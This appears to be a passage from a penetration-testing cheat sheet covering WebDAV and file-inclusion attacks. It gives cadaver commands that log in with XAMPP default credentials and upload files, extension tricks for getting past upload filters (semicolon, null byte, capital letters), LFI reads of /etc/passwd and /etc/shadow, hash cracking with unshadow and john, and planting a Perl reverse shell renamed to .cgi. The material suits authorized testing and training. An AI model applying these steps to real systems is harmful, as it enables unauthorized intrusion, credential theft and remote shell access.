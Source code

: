 * cadavaer
	* Example with webdav xampp default creds
		```cadaver
		cadaver http://<REMOTE HOST>/webdav/
		user: wampp
		pass: xampp

		put /tmp/helloworld.txt
		```
		* load URL, http://<REMOTE HOST>/webdav/helloworld.txt
	* [Example with file upload restrictions bypass](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/cadaver.md)
		```
		cadaver http://url/

		put test.txt
		copy test.txt test.asp;.txt
		move test.txt test.asp;.txt
		```

### LFI

#### File Restriction Bypass
* End Files with %00 (Null Byte)
	* E.g. /etc/passwd%00

#### Next Steps
* [Look for /etc/passwd and /etc/shadow](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/)
	* vim passwd.txt
	* vim shadow.txt
	```unshadow
	unshadow passwd.txt shadow.txt > passwords.txt
	john passwords.txt
	john --wordlist=/usr/share/wordlists/sqlmap.txt --format=md5crypt passwords.txt
	john --show passwords.txt
	```
* Look for Windows files
	* /../../../../Windows/win.ini
* Webmin Local File Disclosure
	* Look at source code and its more of a [LFI](https://www.exploit-db.com/exploits/2017)
	* We have LFI and we want to get RFI so we upload a reverse shell with our low priv shell
	* We upload a perl reverse shell and rename to .cgi
	```cgi
	cp /usr/share/webshells/perl/perl-reverse-shell.pl
	```
	* We access the reverse shell using our LFI and set up a listener

### RFI

#### File Restriction Bypass
* Null Byte
```
test.jsp%00
```
* Semi-Colon
```
test.asp;.txt
```
* CAPS LOCKS
```
test2.PHP
```

